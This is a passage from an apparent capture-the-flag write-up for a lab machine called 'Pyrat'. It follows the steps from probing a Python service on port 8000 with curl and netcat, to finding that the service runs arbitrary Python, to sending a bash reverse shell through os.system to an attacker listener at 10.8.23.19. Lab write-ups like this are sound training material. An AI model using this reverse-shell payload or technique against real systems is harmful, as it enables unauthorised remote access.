 The target runs an SSH and a simple Python HTTP server. Let's visit the web application running on port 8000.
```bash
┌──(pentester㉿kali)-[~/…/Challenge/Pyrat/Scans/Service]
└─$ curl http://10.10.153.86:8000                                                              
Try a more basic connection  
```

There is a message that tells us to initiate a basic connection with the server. This connection can be done using Netcat.
```bash
┌──(pentester㉿kali)-[~/…/Challenge/Pyrat/Scans/Service]
└─$ nc -nv 10.10.153.86 8000
(UNKNOWN) [10.10.153.86] 8000 (?) open
```

We have connected to the server. When we input random strings, we will receive another error message that the string is not defined.
```bash
┌──(pentester㉿kali)-[~/…/Challenge/Pyrat/Scans/Service]
└─$ nc -nv 10.10.153.86 8000
(UNKNOWN) [10.10.153.86] 8000 (?) open
<SNIP>
ls
name 'ls' is not defined
```

Since this is a Python server, let's try to input Python code to see if this code will be executed.
```bash
┌──(pentester㉿kali)-[~/…/Challenge/Pyrat/Scans/Service]
└─$ nc -nv 10.10.153.86 8000
(UNKNOWN) [10.10.153.86] 8000 (?) open
<SNIP>
print(5+5)
10
```

## Exploitation

The code is executed hence we can execute Python code on the target. We can use this Python code execution on the target to execute a reverse shell and obtain RCE on the target. We first need to start a listener on our attack host.
```bash
┌──(pentester㉿kali)-[~/…/Challenge/Pyrat/Misc Files]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
```

Now that the listener is set, let's import the os module and execute a reverse shell on the target using the system() function.
```bash
import os

os.system("/bin/bash -c 'bash -i >& /dev/tcp/10.8.23.19/1234 0>&1'")
```
